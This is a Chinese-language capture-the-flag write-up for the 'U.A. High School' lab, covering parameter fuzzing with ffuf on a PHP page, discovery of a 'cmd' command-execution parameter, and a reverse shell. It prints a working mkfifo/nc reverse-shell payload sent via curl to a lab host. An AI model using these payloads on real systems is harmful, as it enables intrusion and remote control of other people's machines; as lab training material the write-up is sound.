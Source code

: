 ```yaml
---
icon: pen-to-square
date: 2025-05-07
tags: 
title: U.A. High School
category:
  - 项目
---
```

## 解题过程
端口扫描和网站爆破之后没有发现可以利用的点
但是在http://10.10.74.25/assets/images的响应很有趣
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250507213758.png)

证明了网页的存在，当访问http://10.10.36.251/assets/时，我们可以发现设置了`session`这意味着我们很可能访问了某个php文件

发现是个php文件后就有了一点操作空间，可以用模糊测试对php的参数进行碰撞
构造命令进行碰撞
```bash
ffuf -u 'http://10.10.85.228/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 0
```
1. ​**​`-u 'http://10.10.85.228/assets/index.php?FUZZ=id'`​**​
    - ​**​作用​**​：指定目标 URL，`FUZZ` 是占位符，表示此处会被字典中的词替换。
    - ​**​示例​**​：若字典中有词 `user`，则实际请求为 `http://.../index.php?user=id`。
2. ​**​`-mc all`​**​
    - ​**​作用​**​：匹配所有 HTTP 状态码（`-mc` 表示 "match HTTP status code"）。
    - ​**​注意​**​：默认情况下，`ffuf` 仅显示状态码为 200、204、301 等的响应。使用 `all` 会显示所有状态码的响应（可能包含误报）。
3. ​**​`-ic`​**​
    - ​**​作用​**​：忽略响应中的 HTML 注释（`ignore comments`），避免因注释内容干扰结果判断。
4. ​**​`-t 100`​**​
    - ​**​作用​**​：设置并发线程数为 100，提高扫描速度。
5. ​**​`-w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt`​**​
    - ​**​作用​**​：指定用于替换 `FUZZ` 的字典文件路径（常见 Web 参数名的小写单词列表）。
6. ​**​`-fs 0`​**​
    - ​**​作用​**​：过滤（不显示）响应体大小为 0 的结果（`fs` 表示 "filter response size"）。
    - ​**​意图​**​：排除无实际内容的响应（如空页面或错误响应）。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192204.png)

搜索到参数`cmd`
似乎时RCE漏洞，试试看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192422.png)
似乎是base64加密
解一下码看看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508194401.png)
接下来高端操作来了
### 反弹shell
首先监听反射端口
```bash
nc -lvnp 1232
```
然后构造命令
```bash
curl -s 'http://10.10.38.88/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.50.132 1232 >/tmp/f'
```

